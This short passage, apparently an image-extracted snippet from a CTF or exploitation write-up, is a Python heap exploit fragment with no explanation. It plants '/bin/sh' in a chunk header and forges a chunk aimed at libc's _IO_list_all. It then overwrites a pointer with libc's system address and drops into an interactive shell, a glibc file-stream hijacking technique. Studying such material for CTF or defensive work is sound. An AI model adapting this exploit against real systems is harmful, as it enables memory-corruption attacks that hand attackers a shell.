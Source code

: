 ```python

chunk_B3 = malloc()

# string "/bin/sh" to _flag size field
edit(chunk_B3, p64(0)*10 + b'/bin/sh\x00' + p8(0x68))
#edit(chunk_B3, p64(0)*10 + b'/bin/sh\x00' + p8(0xb1))
payload = \
p64(0) + p64(libc.sym['_IO_list_all'] - 0x10) +\
p64(1) + p64(2) 

edit(chunk_C3, payload)

edit(chunk_E, p64(libc.sym['system']) + p64(heap + 0x178))

io.sendline(b'1')
io.interactive()
```